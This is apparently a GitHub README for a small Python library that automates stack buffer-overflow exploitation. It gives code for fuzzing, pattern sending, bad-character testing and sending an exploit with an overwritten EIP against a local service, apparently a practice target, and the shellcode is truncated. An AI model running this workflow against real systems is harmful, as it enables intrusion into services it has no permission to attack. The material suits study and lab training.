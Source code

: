 # What is BUFF?
A simple BOF library I wrote under an hour to help me automate with BOF attack.
It comes with fuzzer and a generic method to generate exploit easily.

<br/>

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.sendPattern()
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Send real exploit
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
